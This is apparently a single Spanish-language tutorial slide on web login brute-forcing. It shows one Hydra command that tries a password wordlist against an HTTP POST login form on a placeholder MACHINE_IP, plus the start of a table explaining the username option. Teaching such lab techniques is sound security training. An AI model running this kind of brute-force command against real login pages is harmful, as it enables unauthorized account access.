

# hydra -l <username> -P <wordlist> MACHINE_IP http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V

Opción

username
Descripción
Nombre del campo donde el username es introducido